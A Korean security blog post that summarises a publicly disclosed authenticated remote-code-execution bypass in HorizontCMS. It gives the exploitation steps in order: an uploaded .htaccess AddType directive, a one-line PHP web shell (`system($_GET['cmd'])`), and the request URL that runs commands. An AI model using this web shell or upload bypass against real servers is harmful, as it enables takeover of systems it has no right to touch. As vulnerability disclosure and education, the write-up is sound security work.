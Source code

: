 ```yaml
---
title: "[하루한줄] HorizontCMS 원격 코드 실행 취약점"
author: L0ch
tags: [L0ch, rce, php, cve, bypass]
categories: [1day1line]
date: 2021-04-06 14:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

[[BugHunt] Authenticated RCE found in HorizontCMS — Part 2 (PHP Filetype Bypass)](https://infosecwriteups.com/bughunt-authenticated-rce-found-in-horizontcms-part-2-php-filetype-bypass-4580176223eb)

## Target

- HorizontCMS

## Explain

오픈소스 컨텐츠 관리 시스템인 HorizontCMS에서 기존 파일 업로드 취약점(CVE-2020–27387) 패치에 대한 우회가 발견되어 세부 정보가 공개되었습니다.

기존 파일 업로드 취약점은 `.php`, `.php5`, `.php7`, `.phtml`, `.inc` 와 같은 확장명이 포함된 파일 업로드를 제한하는 것으로 패치되었지만 설정 파일인 `.htaccess` 필터링을 하지 않아 PHP file type을 변경한 우회 공격이 가능합니다.

해당 취약점을 이용해 임의 코드를 실행하는 방법은 다음과 같습니다.

1. admin 페이지의 Media → Files에서 `test2.htaccess` 파일을 업로드합니다. 해당 파일의 내용은 아래와 같습니다.
    - `AddType application/x-httpd-php .exp`
2. 파일 rename 기능을 이용해 `test2.htaccess` 파일의 이름을 `.htaccess`로 변경합니다.
3. 아래와 같이 임의 코드를 실행할 수 있게 해주는 내용이 포함된 `test2.php` 파일을 업로드 한 뒤 파일 이름을 `test.exp` 로 변경합니다.
    - `<?php system($_GET['cmd']); ?>`
4. 1, 2에서 업로드한 `.htaccess` 로 인해 `.exp` 확장자가 php로 실행됩니다. 따라서 `test.exp`에 접근해 임의 코드를 실행할 수 있습니다.

```cpp
http://<HorizontCMS IP>/storage/test.exp?cmd=id
```

취약점 제보자는 악성 플러그인을 악용한 원격 코드 실행 취약점의 관련 정보 또한 공개하였으며 [https://infosecwriteups.com/bughunt-authenticated-rce-found-in-horizontcms-part-1-malicious-plugins-72846f4ab6fe](https://infosecwriteups.com/bughunt-authenticated-rce-found-in-horizontcms-part-1-malicious-plugins-72846f4ab6fe) 에서 확인할 수 있습니다.